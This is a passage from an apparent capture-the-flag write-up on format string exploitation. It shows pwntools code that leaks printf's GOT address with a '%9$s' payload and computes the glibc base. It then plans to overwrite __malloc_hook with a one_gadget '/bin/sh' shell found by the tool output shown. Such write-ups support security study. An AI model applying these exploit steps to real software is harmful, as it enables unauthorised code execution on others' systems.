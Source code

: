 Now the process is kind of standard in Format String exploitation.

**Task 4**: To leak an address of Glibc, we must use the Global Offset Table (GOT). This table is part of the binary and contains the addresses of the functions that can be used by the binary (namely, `printf`, `strncat`, `fgets`...).

The addresses of the GOT are known because we have their offsets and the base address of the binary. We can use the following payload to print the address of `printf` (for example) in Glibc:

```python
leak = b'%9$s'.ljust(8, b'\0') + p64(elf.got.printf)
p.sendlineafter(b'print->CN=', leak)
data = p.recvline()
data = data[:data.index(b'[!] ERR')]

printf_addr = u64(data.ljust(8, b'\0'))
print('Address of printf():', hex(printf_addr))
```

Because strings in C work as pointers, if we put an address of GOT into a format string to print the content of a string, what will be printed is the address pointed by the value of the GOT address.

Notice that we are trying to leak `%9$s`, which will be the data inside address `printf` at GOT, which comes right after the format string (recall that the format string offset is `8`).

If all works correctly, we will have the real address of `printf` in Glibc.

**Task 5**: The base address of Glibc is computed the same way as the binary base address. We only subtract the offset from the real address. Then, we need to verify that the base address ends in `000` hexadecimal digits.

```python
libc.address = printf_addr - libc.symbols.printf
print('Glibc base address:', hex(libc.address))
```

**Task 6**: Now we need to write to an address in memory. The best way to gain code execution in this type of situations is overriding the address of `__malloc_hook` inside Glibc to execute a one gadget shell.

Gadgets are just lines of assembly code that perform a certain operation. They are useful in Buffer Overflow exploitation using Return Oriented Programming (ROP) to bypass NX (also known as DEP).

This time, we can search for a gadget that executes `/bin/sh`. They are commonly found inside Glibc. Using `one_gadget` (`gem install one_gadget`) we can get some potential gadgets:

```console
$ one_gadget libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

